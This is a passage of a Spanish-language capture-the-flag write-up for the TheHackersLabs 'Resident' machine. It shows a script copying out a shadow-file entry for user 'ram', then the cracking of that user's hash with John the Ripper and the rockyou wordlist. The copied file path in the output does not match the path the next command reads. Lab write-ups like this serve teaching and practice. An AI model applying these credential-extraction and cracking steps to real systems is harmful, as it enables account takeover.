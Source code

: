 Démosle permisos de ejecución, ejecutemos el script y leamos ese archivo llamado **password.txt**:
```bash
simple@TheHackersLabs-Resident:~$ chmod +x cp.sh 
simple@TheHackersLabs-Resident:~$ ./cp.sh 
Copiando archivo...
Archivo copiado a /tmp/passwd.txt
simple@TheHackersLabs-Resident:~$ cat /tmp/password.txt 
ram:$y$j9T$v3fiA7W1LOJmdyVZGUfIp0$TF7qqhsJ1SnWH8caDijOlxCjIo2VXgurTgq6DIlxmE1:20003:0:99999:7:::
```
Obtuvimos un Hash, pero no logro identificar qué tipo de Hash es con la herramienta **hash-identifier**.

Para estos casos, podemos usar la página **Hashes.com** que sirve para identificar que tipo Hash encontraste:
* <a href="https://hashes.com/en/tools/hash_identifier" target="_blank">Hash.com</a>

Copia y pega el Hash en esta página y veamos si lo puede identificar:

<p align="center">
<img src="/assets/images/THL-writeup-resident/Captura23.png">
</p>

Existe el **formato crypt** en la herramienta **JhonTheRipper** que permite crackear este tipo de Hash.

Probémoslo:
```bash
john -w:/usr/share/wordlists/rockyou.txt hash --format=crypt
Using default input encoding: UTF-8
Loaded 1 password hash (crypt, generic crypt(3) [?/64])
Cost 1 (algorithm [1:descrypt 2:md5crypt 3:sunmd5 4:bcrypt 5:sha256crypt 6:sha512crypt]) is 0 for all loaded hashes
Cost 2 (algorithm specific iterations) is 1 for all loaded hashes
Will run 6 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
******          (ram)     
1g 0:00:00:00 DONE (2025-09-17 03:17) 2.564g/s 246.1p/s 246.1c/s 246.1C/s 123456..yellow
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```
Tenemos la contraseña del **usuario ram**.
